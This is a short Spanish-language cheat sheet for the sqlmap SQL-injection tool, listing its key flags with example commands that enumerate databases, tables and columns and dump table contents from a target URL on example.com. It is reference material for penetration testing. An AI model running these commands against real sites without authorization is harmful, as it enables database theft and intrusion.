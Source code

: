 SQLmap es una herramienta fortísima que nos permite identificar y explotar SQLinjections, extraer información de las bases de datos, ejecutar comandos en el SO subyacente y probar la seguridad de aplicaciones web.
``` bash
sqlmap -u "http://example.com/page?id=1" --dbs --level=3 --risk=2
```
## Parámetros clave

|             |                                                    |                                                                                  |
| ----------- | -------------------------------------------------- | -------------------------------------------------------------------------------- |
| -u          | Indica la URL víctima                              | sqlmap -u "http://example.com/page?id=1"                                         |
| --dbs       | Enumera las DBs disponibles                        | sqlmap -u "http://example.com/page?id=1" --dbs                                   |
| --tables    | Enumera las tablas de una DB                       | sqlmap -u "http://example.com/page?id=1" -D mydatabase --tables                  |
| --columns   | Enumera las columnas de una tabla                  | sqlmap -u "http://example.com/page?id=1" -D mydatabase -T mytable --columns      |
| --dump      | Extrae datos de una tabla                          | sqlmap -u "http://example.com/page?id=1" -D mydatabase -T mytable --dump         |
| -D DB       | Selecciona una DB                                  | sqlmap -u "http://example.com/page?id=1" -D mydatabase                           |
| -T TABLE    | Selecciona una tabla                               | sqlmap -u "http://example.com/page?id=1" -D mydatabase -T mytable                |
| --level N   | Nivel de intensidad pruebas 1-5                    | sqlmap -u "http://example.com/page?id=1" --level=3                               |
| --risk N    | Nivel de riesgo 1-3 (mas agresividad)              | sqlmap -u "http://example.com/page?id=1" --risk=2                                |
| --technique | Selección de técnicas de inyección                 | sqlmap -u "http://example.com/page?id=1" --technique=BEUSTQ                      |
| --cookie    | Define cookies de autenticación                    | sqlmap -u "http://example.com/page?id=1" --cookie="session=abc123"               |
| --proxy     | Usa un proxy para las solicitudes                  | sqlmap -u "http://example.com/page?id=1" --proxy="http://proxy.example.com:8080" |
| --forms     | Habilita la detección y explotación de formularios |                                                                                  |
| --batch     | Omite todas las confirmaciones                     |                                                                                  |
